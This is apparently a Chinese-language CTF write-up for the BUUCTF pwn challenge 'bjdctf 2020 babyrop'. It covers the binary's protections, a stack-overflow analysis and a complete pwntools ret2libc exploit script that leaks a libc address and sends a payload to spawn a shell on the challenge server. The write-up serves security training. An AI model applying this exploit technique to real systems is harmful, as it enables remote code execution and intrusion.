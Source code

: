 ```yaml
---
author: 
  name: Zephyr
title: bjdctf 2020 babyrop
date: 2022-3-22 21:20:03
permalink: /pages/2e1547494524d18c
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# bjdctf 2020 babyrop

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/bjdctf_2020_babyrop/bjdctf_2020_babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init();
  vuln();
  return 0;
}
```

vuln函数及函数表如下

![bjdctf_2020_babyrop_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/bjdctf_2020_babyrop_1.png)

## 思路分析

1. 目前信息：
   - `vuln`函数内明显的栈溢出漏洞
   - No PIE
   - NX 保护开启
   - 无后门函数

2. 思路：
   - 本题是标准的`ret2libc`，应先泄漏`libc`及函数地址，再利用泄漏的信息构造`payload`,执行获取`shell`

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/bjdctf_2020_babyrop/bjdctf_2020_babyrop'
io = remote('node4.buuoj.cn', 28461)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x24+4
libc_start_main_addr = elf.got['__libc_start_main']
puts_addr = elf.plt['puts']
vuln_addr = elf.symbols['vuln']
pop_rdi_ret = 0x400733
payload = flat(['a'*padding, pop_rdi_ret,libc_start_main_addr, puts_addr, vuln_addr])
io.sendlineafter('me u story!\n', payload)
leak_libc_start_main_addr = u64(io.recv(6).ljust(8, b'\x00'))
libc = LibcSearcher('__libc_start_main', leak_libc_start_main_addr)
libcbase = leak_libc_start_main_addr-libc.dump('__libc_start_main')
system_addr = libcbase+libc.dump('system')
bin_sh_addr = libcbase+libc.dump('str_bin_sh')
payload = flat(['a'*padding, pop_rdi_ret, bin_sh_addr, system_addr])
io.sendlineafter('u story!\n', payload)
io.interactive()
```
